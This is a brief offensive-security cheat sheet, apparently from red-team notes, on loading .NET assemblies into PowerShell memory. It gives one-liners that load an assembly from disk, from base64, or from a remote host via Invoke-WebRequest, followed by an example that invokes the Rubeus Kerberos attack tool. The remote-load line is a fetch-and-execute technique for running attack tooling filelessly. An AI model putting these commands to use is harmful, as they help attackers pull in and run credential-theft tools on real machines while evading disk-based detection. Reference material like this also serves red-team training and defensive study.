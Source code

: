 # PowerShell Assembly Loading

## Loading

### Disk
```powershell
[System.Reflection.Assembly]::LoadFrom('<path_to_file>')
```

### HTTP(S) URL
```powershell
[System.Reflection.Assembly]::Load((Invoke-WebRequest '<http(s)>://<host>:<port>/<uri>')).Content
```

### Base64
```powershell
[System.Reflection.Assembly]::Load([Convert]::FromBase64String('<base64_string>'))
```

***

## Execution
```powershell
# [<PublicNamespace>.<PublicClass>]::Function(<arguments>
[Rubeus.Program]::Main("klist")
```